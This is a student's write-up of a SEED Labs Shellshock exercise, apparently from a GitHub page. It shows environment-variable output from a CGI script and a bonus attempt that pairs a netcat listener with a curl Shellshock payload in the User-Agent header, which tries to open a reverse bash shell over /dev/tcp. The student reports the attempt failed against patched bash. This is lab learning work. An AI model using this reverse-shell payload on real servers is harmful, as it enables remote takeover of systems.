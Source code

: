 ```
REQUEST_URI=/cgi-bin/getenv.cgi
SCRIPT_NAME=/cgi-bin/getenv.cgi
```
I am going to skip the other two option since it will be the same results, a list of all the environment variables.

4. **Bonus**, I decided to try Task 4:
```
[02/16/21]seed@VM:~/.../image_www$ nc -nvl 9090
Listening on 0.0.0.0 9090
```
```
[02/16/21]seed@VM:~/.../02_shellshock$ /bin/bash
[02/16/21]seed@VM:~/.../02_shellshock$ curl -A '() {:;}; echo Content_type: text/plain; echo; /bin/bash -i > /dev/tcp/172.17.0.1/9090 0<&1 2>&1' http://www.seedlab-shellshock.com/cgi-bin/getenv.cgi
*** ENVIRONMENT VARIABLES***
HTTP_HOST=www.seedlab-shellshock.com
HTTP_USER_AGENT=() {:;}; echo Content_type: text/plain; echo; /bin/bash -i > /dev/tcp/172.17.0.1/9090 0<&1 2>&1
HTTP_ACCEPT=*/*
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
SERVER_SIGNATURE=<address>Apache/2.4.41 (Ubuntu) Server at www.seedlab-shellshock.com Port 80</address>
SERVER_SOFTWARE=Apache/2.4.41 (Ubuntu)
SERVER_NAME=www.seedlab-shellshock.com
SERVER_ADDR=10.9.0.80
SERVER_PORT=80
REMOTE_ADDR=10.9.0.1
DOCUMENT_ROOT=/var/www/html
REQUEST_SCHEME=http
CONTEXT_PREFIX=/cgi-bin/
CONTEXT_DOCUMENT_ROOT=/usr/lib/cgi-bin/
SERVER_ADMIN=webmaster@localhost
SCRIPT_FILENAME=/usr/lib/cgi-bin/getenv.cgi
REMOTE_PORT=55560
GATEWAY_INTERFACE=CGI/1.1
SERVER_PROTOCOL=HTTP/1.1
REQUEST_METHOD=GET
QUERY_STRING=
REQUEST_URI=/cgi-bin/getenv.cgi
SCRIPT_NAME=/cgi-bin/getenv.cgi
```
As we can see, task 4 has failed as well. Overall, we can see that we are running the actual getenv.cgi every time. Since the code asked for print the environ, that is our result. We have not gotten around it. Even after trying all curl options and doing something like task 4. However, it is also good to hear that such a vulnerable bug has been fixed and it was patched. In the end, it was very clear the difference between /bin/bash_shellshock and /bin/bash.
